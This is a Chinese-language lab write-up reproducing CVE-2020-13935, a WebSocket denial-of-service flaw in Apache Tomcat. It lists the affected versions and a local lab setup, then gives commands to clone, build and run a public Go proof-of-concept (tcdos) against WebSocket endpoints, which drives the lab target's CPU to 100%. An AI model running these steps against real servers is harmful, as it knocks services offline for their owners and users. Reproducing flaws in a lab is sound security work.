



# 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：apache-tomcat-8.5.56

# 0x02 环境搭建
靶机系统：2008_r2_standard_zh-chs

下载并解压apache-tomcat-8.5.56  
进入目录bin并执行startup.bat，出现“Server startup in xx ms”，通常表示启动成功，如下图  
  
访问[http://172.16.35.133:8080/](http://172.16.35.133:8080/)，确认服务成功启动，如下图  
  
JDK的安装配置  
Apache Tomcat安装配置  
Eclipse IDE for Java EE安装配置  
Tomcat运行时环境在Eclipse IDE for Java EE中安装配置  
Eclipse IDE for Java EE中建立动态web项目  
创建"Hello World" Servlet和JSP视图  
在Eclipse IDE for Java EE中运行动态web项目  
导出为WAR文件并部署到Tomcat中  
写好的websocket应用见文件WebSocketServlet.java，部署好的websocket应用见下图  

# 0x03 利用条件
Tomcat上部署了WebSocket应用

# 0x04 影响版本
9.0.0.M1 <= apache tomcat <= 9.0.36  
10.0.0-M1 <= apache tomcat <= 10.0.0-M6  
8.5.0 <= apache tomcat <= 8.5.56  
7.0.27 <= apache tomcat <= 7.0.104  

# 0x05 漏洞复现
攻击系统：Kali-Linux-2020.2-vmware-amd64  

复现使用自己编写的websocket应用：  
在火狐浏览器的开发者工具的控制台中依次执行WebSocketClient.js中的javascript代码，当执行完“client.connect();”，eclipse中tomcat控制台出现“onOpen::0”时，表示websocket应用部署完成，如下图  
  
导出为DemoTwo.war并部署到tomcat中  
执行如下命令：  
git clone https://github.com/RedTeamPentesting/CVE-2020-13935  
cd CVE-2020-13935  
go build  
./tcdos ws://172.16.35.133:8080/DemoTwo/endpoint  
执行后靶机系统CPU骤升到100%，如下图  
  
此时，tomcat管理控制台显示如下  

复现使用自带的websocket应用：  
首先访问[http://172.16.35.133:8080/examples/websocket/](http://172.16.35.133:8080/examples/websocket/)确认存在WebSocket应用，如下图  
  
执行如下命令：  
./tcdos ws://172.16.35.133:8080/examples/websocket/echoProgrammatic  
执行后靶机系统CPU骤升到100%，如下图  

# 0x06 踩坑记录
坑1：  
执行go build后，可能会报如下错误  
  
此时需要一些合理上网方式，成功执行后如下图  
  

# 0x07 参考链接
https://www.anquanke.com/post/id/221861  
https://github.com/RedTeamPentesting/CVE-2020-13935  
https://www.pegaxchange.com/2018/01/28/websocket-server-java/  
https://www.pegaxchange.com/2016/09/02/java-eclipse-tomcat/  
https://www.cnblogs.com/xdp-gacl/p/5193279.html  
https://blog.redteam-pentesting.de/2020/websocket-vulnerability-tomcat/
